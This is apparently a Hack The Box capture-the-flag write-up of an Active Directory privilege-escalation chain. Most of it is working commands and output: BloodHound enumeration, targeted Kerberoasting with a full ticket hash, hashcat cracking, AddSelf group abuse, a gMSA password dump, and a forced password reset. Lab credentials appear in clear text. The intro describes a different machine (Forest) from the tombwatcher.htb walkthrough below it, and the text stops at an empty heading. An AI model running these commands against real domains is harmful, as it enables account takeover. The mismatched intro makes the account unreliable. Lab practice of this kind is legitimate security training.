

<p align="center">
  
</p>

# Intro

Forest was my first AD machine after completing the CPTS path of HTB.
It's a well-known machine for getting started with Active Directory environments. It is an easy-rated machine. The pentest was performed in a black box context as I had no credentials, only the machine's IP address.
I started with an **ASREP-Roasting** and discovered that the `svc_alfresco` user did not require Kerberos pre-authentication.  I was able to successfully crack its TGT offline.
Using this account, I enumerated the domain's ACLs and found that svc_alfresco, through several groups, was a member of the `Account Operators` group. This group held `GenericAll` privileges over the `Exchange Windows Permissions` group and had permission to add users in the domain. Since the Exchange Windows Permissions group has DCSync rights, I leveraged my Account Operators privileges to create a new user and add it to that group. This allowed me to perform a DCSync attack with the new user's credentials, retrieve the Administrator's NTLM hash, and fully compromise the domain.

# Walkthough

## Enumeration

I start to enumerate services on the host with nmap

```bash
# nmap -sV -sC -p- -oA nmap/target 10.10.11.72

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-11 15:01:45Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-11T15:03:05+00:00; +3h59m49s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
|_ssl-date: 2025-06-11T15:03:05+00:00; +3h59m49s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
|_ssl-date: 2025-06-11T15:03:05+00:00; +3h59m49s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-11T15:03:05+00:00; +3h59m49s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3h59m48s, deviation: 0s, median: 3h59m48s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-06-11T15:02:28
|_  start_date: N/A
```

This is a domain controler as there are LDAP and Kerberos services on this host.
Also there is a website on the port 80.

## Enumerating ACLs with Bloodhound

As I found nothing interesting in SMB, HTTP nor lDAP, I start to enumerate ACLs with bloodhound-python.
I use the give user account `henry`.

```bash
 bloodhound.py --zip -c All -d tombwatcher.htb -u 'henry' -p 'H3nry_987TGV!' -dc tombwatcher.htb -ns 10.10.11.72
```

Bloodhound show me a clear path to a foothold on the DC.



## Writing a SPN on `alfred`

Firstly, `henry` account has the `WriteSPN` privilege over the `alfred` user.
Here the privilege is obvious, and the advantage of this is, if I add a SPN in this account, `alfred` will become a service account, which means that I'll be able to revover a TGS.
As is TGS contain the hashed password of the service account, I'll try to crack it offline to recover is password.

```bash
# targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (Alfred)
[+] Printing hash for (Alfred)
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$9f96d5f79733796c696704ce14f4a350$e65d158d18b8c95a6a788ff6a9a1eabc8f89881d3dc7d70b21237812a9f137ed69297a981d3abb3900d90ed47c14f6dbb5558d8365fc02d0f8c2bdd35389dc97621bd135692536ecb17204898424dce49518a13e0115cb399274bdd4efe203f4edddf203513e141fc2970edf65414e4cba5f8970f6ed2a05a573db7b5e0b029aa7203d75f34e67e1f3ddccf474eaa43355890b87d68bf5a2a4470fac5f5328e9da78ed215b410199bf3e16974149ee41c0927dc357ae59433272f05871824c5cad4612870449ef965a99b3b8d509db6c664c9747e4abcbf3ab92f3af2586f67f54a458a9ff65e1c2f4c369a69d1d88a2976b8dcde60d8df6c94878df687cfee7f6b00db1b1984817df394ba4a65af9978911c655c985225b6d48071fe358639228cd346dca29d11493680ec49cb015a91cc033b13e3667c020a67b2b60b0bd1ee6546196abbe443bb7a063f32bd5a8938a05e0064f3f62f109ab626c66a3f6cade6ce7190159bcd5290b14ef2251941e8fbc9966700c0db57ee21b3ef41ff7b26515dbe4a25b90f4ff59dd151afc8ff2dc8f24716b707453d1b9ac825782f8865d94083948a639d9099f514912a569b5f85174324473df74bf5a4109f7d23429df92950022180cd447af95c152b0c8fde40ee28cc62d9839ea24e80cdb810b9da742b97a0b6e298d8ac4a44d51bfe4957a1f1da54f1a45be51f0881bb6dcbef4957e5a0c874679dda2fcdb3e7acd7d665e792f77f4177ce1ae0805a13a9911d23e97006e123f732873dea65e4aeb568f96cad79f5fe63517eb6d216e8073cbdfea102ad732623b52b459c2e52941325429d5682381d97408cdb92478c03e83b6d54c9bfc3af388abeca9328dd72e51aaa1089821aa69b0c308e55998fecec7385d3808e51cbed83b99bd77cc8e9614598eaa005768b07b4d1930e12835ae07556a362ebf789b6e3d3235b0ca0f0619638375e4f7015be949a900527ccb87cf6521a9b7cd3bcf860ac86b50b2ab9433db8706ec7e685b10914ca8de4e79c48cabf246fa20b1e17cdc551f4e41567bec283bf17ad78f5afcc507307fea9b80cbb9e308e3cd3ca59de8b712c37a53b3971046ee2576611ce9119291d753d818c0cd37dc90d2065ce51b37f9131396a90cbc31f214027a191d2487c6a41b4e81754d0947f290f90e1497097404c1f540f90b790ce4b4527189655e4ff76cfd1b88588d41b55ef6371353a630e5b9352904fac3857e6cbcb1bc3cb00c647db9cf42ff9403581d4cde02c71fb14a45981b356d296f35e94c9df0c92dff1b867cd608d43e5f0a37f1df13bf43e6ae87ed0bcc727bbe0e4c484477fb0893b39ac923e8c0ee60721764b52cad7245be1e20f7adc40bda3b444b497c776d366a66831889695b06484b15636ba2000f22d7e44741b5a4a7d4406cb762715419b33375a60d742520e9ba0d7226711cbcce12e1d6dde6f97efed05a
```

## Cracking `alfred` TGS offlie

I used Hashcat to crack his hash.

```bash
# hashcat -m 13100 alfred.tgs /opt/lists/rockyou.txt

$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$9f96d5f79733796c696704ce14f4a350$e65d158d18b8c95a6a788ff6a9a1eabc8f89881d3dc7d70b21237812a9f137ed69297a981d3abb3900d90ed47c14f6dbb5558d8365fc02d0f8c2bdd35389dc97621bd135692536ecb17204898424dce49518a13e0115cb399274bdd4efe203f4edddf203513e141fc2970edf65414e4cba5f8970f6ed2a05a573db7b5e0b029aa7203d75f34e67e1f3ddccf474eaa43355890b87d68bf5a2a4470fac5f5328e9da78ed215b410199bf3e16974149ee41c0927dc357ae59433272f05871824c5cad4612870449ef965a99b3b8d509db6c664c9747e4abcbf3ab92f3af2586f67f54a458a9ff65e1c2f4c369a69d1d88a2976b8dcde60d8df6c94878df687cfee7f6b00db1b1984817df394ba4a65af9978911c655c985225b6d48071fe358639228cd346dca29d11493680ec49cb015a91cc033b13e3667c020a67b2b60b0bd1ee6546196abbe443bb7a063f32bd5a8938a05e0064f3f62f109ab626c66a3f6cade6ce7190159bcd5290b14ef2251941e8fbc9966700c0db57ee21b3ef41ff7b26515dbe4a25b90f4ff59dd151afc8ff2dc8f24716b707453d1b9ac825782f8865d94083948a639d9099f514912a569b5f85174324473df74bf5a4109f7d23429df92950022180cd447af95c152b0c8fde40ee28cc62d9839ea24e80cdb810b9da742b97a0b6e298d8ac4a44d51bfe4957a1f1da54f1a45be51f0881bb6dcbef4957e5a0c874679dda2fcdb3e7acd7d665e792f77f4177ce1ae0805a13a9911d23e97006e123f732873dea65e4aeb568f96cad79f5fe63517eb6d216e8073cbdfea102ad732623b52b459c2e52941325429d5682381d97408cdb92478c03e83b6d54c9bfc3af388abeca9328dd72e51aaa1089821aa69b0c308e55998fecec7385d3808e51cbed83b99bd77cc8e9614598eaa005768b07b4d1930e12835ae07556a362ebf789b6e3d3235b0ca0f0619638375e4f7015be949a900527ccb87cf6521a9b7cd3bcf860ac86b50b2ab9433db8706ec7e685b10914ca8de4e79c48cabf246fa20b1e17cdc551f4e41567bec283bf17ad78f5afcc507307fea9b80cbb9e308e3cd3ca59de8b712c37a53b3971046ee2576611ce9119291d753d818c0cd37dc90d2065ce51b37f9131396a90cbc31f214027a191d2487c6a41b4e81754d0947f290f90e1497097404c1f540f90b790ce4b4527189655e4ff76cfd1b88588d41b55ef6371353a630e5b9352904fac3857e6cbcb1bc3cb00c647db9cf42ff9403581d4cde02c71fb14a45981b356d296f35e94c9df0c92dff1b867cd608d43e5f0a37f1df13bf43e6ae87ed0bcc727bbe0e4c484477fb0893b39ac923e8c0ee60721764b52cad7245be1e20f7adc40bda3b444b497c776d366a66831889695b06484b15636ba2000f22d7e44741b5a4a7d4406cb762715419b33375a60d742520e9ba0d7226711cbcce12e1d6dde6f97efed05a:basketball

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
```

The hash has been cracked! I have a new account : `alfred:basketball`

## Adding `alfred` to the `Infrastructure` group

The `AddSelf` right allow an account to add himself to a group.
I add `alfred` to this group with the **BloodyAD** tool.

```bash
# bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u alfred -p basketball add groupMember "infrastructure" "alfred"
[+] alfred added to infrastructure
```

## Reading the NT hash of `ansible_dev`

The `Infrastructure group` has the `ReadGMSAPassword` right over the `ansible_dev` account.
The gMSA (group Managed Service Accounts) group permitt the automatic manage of password.
Active Directory take in charge the password and his automatique renewment. This is a good thing but as I control an account which can access his password, I can read his password.

```bash
# gMSADumper.py -d "tombwatcher.htb" -l "DC01.tombwatcher.htb" -u "alfred" -p "basketball"
Users or groups who can read password for ansible_dev$:
 > Infrastructure
ansible_dev$:::1c37d00093dc2a5f25176bf2d474afdc
ansible_dev$:aes256-cts-hmac-sha1-96:526688ad2b7ead7566b70184c518ef665cc4c0215a1d634ef5f5bcda6543b5b3
ansible_dev$:aes128-cts-hmac-sha1-96:91366223f82cd8d39b0e767f0061fd9a
```

I have the hash!
`ansible_dev:1c37d00093dc2a5f25176bf2d474afdc`

It is useless to crack it offline because the gMSA passwords are very long and complex so impossible to crack.

## Changing the `sam`'s password

The `ansible-dev` account has the `ForceChangePassword` over the `sam` account.
So I can change his password without knowing his current password. But the probleme is NTLM is deactivated with gMSA users.
I need to get a TGT first for the user `ansible_dev` and use BloodyAD and PasstheTicket to modify the password.

```bash
# getTGT.py \
  -dc-ip 10.10.11.72 \
  -aesKey 91366223f82cd8d39b0e767f0061fd9a \
  tombwatcher.htb/ansible_dev                 
Impacket v0.13.0.dev0+20250107.155526.3d734075 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in ansible_dev.ccache
```

I set the KRB5CCNAME to the ansible_dev.ccache.

```bash
# export KRB5CCNAME=ansible_dev.ccache 
```

And finally, I change the `sam` password.

```bash
# bloodyAD --host DC01.tombwatcher.htb --dc-ip 10.10.11.72 -d tombwatcher.htb -u ansible_dev -k set password "sam" "Bagu3tte"
[+] Password changed successfully!
```

Now I controll another user!
`sam:Bagu3tte`

## Using `WriteOwner` privilege to do a targeted kerberoasting on `john`


